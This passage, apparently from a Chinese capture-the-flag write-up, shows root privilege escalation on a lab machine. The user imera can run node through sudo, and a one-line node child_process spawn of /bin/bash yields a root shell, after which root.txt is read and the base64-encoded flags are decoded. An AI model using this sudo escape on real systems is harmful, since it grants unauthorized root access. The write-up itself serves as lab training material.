 ![image-20211104104353472](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104104353472.png)

发现用户imera在没有root用户密码的权限下，只执行sudo，**可以执行node和npm命令**

搜集发现了一段代码（调用node执行生成一个子进程，子进程运行/bin/bash）

```
sudo node -e 'child_process.spawn("/bin/bash",{stdio:[0,1,2]})'   
```

```
id
```

![image-20211104104738393](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104104738393.png)

发现已经**成功提权**为root用户

```
cd root
```

```
pwd
```

```
ls
```

```
cat root.txt
```

![image-20211104104834470](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211104104834470.png)

```
YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```

---

## 彩蛋

CyberChef:

>user.txt
>
>byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK
>
>-->o chronos pernaei file mou.
>
>译-->我们签署了谅解备忘录。

>root.txt
>
>YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
>
>-->apopse siopi mazeuoume oneira.
>
>译-->我很高兴见到你。













